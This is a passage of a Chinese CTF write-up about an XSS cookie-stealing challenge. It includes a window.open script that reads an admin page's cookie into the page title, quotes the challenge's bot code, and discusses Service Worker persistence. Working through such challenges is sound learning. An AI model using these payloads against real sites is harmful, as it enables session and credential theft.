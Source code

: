 也可以用 ```window.open()``` 一样的操作
```html
<title id="mytitle">Web Page</title>
<script>
    var newWindow = window.open('/admin/');
    setTimeout(()=>{
        var newWindowCookie = newWindow.document.cookie;
        document.getElementById("mytitle").innerText = newWindowCookie;
    }, 500);
</script>
```

这里一开始一直没拿到 cookie，后来发现需要 ```setTimeout()``` 持续执行

### 第二部分

```py
else: # https, flag 2
    
    with webdriver.Chrome(options=options) as driver:
        print('\nVisiting your webpage')
        driver.get(hacker_url)
        time.sleep(1)
        
    with webdriver.Chrome(options=options) as driver:
        print('\nSetting up flag 2')
        driver.get(admin_url)
        time.sleep(.5)
        driver.execute_script(f'document.cookie = "flag={getflag(2)}; path=/admin"')
        time.sleep(1)
    
        title = driver.title
        print('\nThe page title is:', title)
```

这里的话，会先访问我们的网页 ```hacker_url```，然后关掉这个页面之后，再去访问admin页面 ```admin_url```，这里就有点离谱了，第一个想法是都关掉了页面了，还能如何去攻击

还好官方给了提示
> 给 Cookie 设置 Path 并不能带来安全性。MDN 文档 专门有一节来指出其中的问题。
> 你需要 注册一个 [Service Worker](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers)，而且要注册到 "/" 这个 scope 上。

[XSS持久化：Service Worker](
https://misakikata.github.io/2021/06/XSS%E6%8C%81%E4%B9%85%E5%8C%96%EF%BC%9AService-Worker/) 这篇文章里面说的很清晰

> Service Worker 可以访问的内容：网络请求、缓存、消息推送、后台同步、全局状态
> Service Worker 不可以访问的内容：DOM、window 对象、用户界面、同步 XHR、Cookies

document 属于 Web API 中的 DOM（文档对象模型）接口，所以下面的操作是不行的
```js
this.addEventListener('fetch', function (event) {
    setInterval(() => {
        document.title = document.cookie;
    }, 200);
});
```
